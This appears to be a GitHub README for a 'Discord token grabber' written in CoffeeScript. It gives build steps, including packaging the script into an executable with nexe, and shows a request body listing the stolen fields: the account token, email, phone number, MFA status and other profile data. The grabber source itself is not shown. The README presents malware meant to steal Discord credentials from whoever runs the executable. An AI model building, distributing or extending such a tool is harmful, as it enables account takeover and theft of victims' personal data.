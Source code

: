 # Discord token grabber

installation ( coffeescript ):
  `npm install coffee-script -g -d`

  modules:
    `npm install`

compile ( js ):
  `coffee --compile lib main.coffee` and `cd lib`

compile ( js -> exe ):
   `npm install nexe -g -d` and `nexe main.js`


request:
```coffee

setting =
  headers: 'Content-Type': 'application/json'
  body: 
    embeds:
      title
      token
      uuid
      tag
      username
      discriminator
      email
      phone
      verified
      nsfw_allowed
      mfa_enabled
      locale
      bio
      banner
return
```

result:

![ScreenShot](/screen/Capture.png)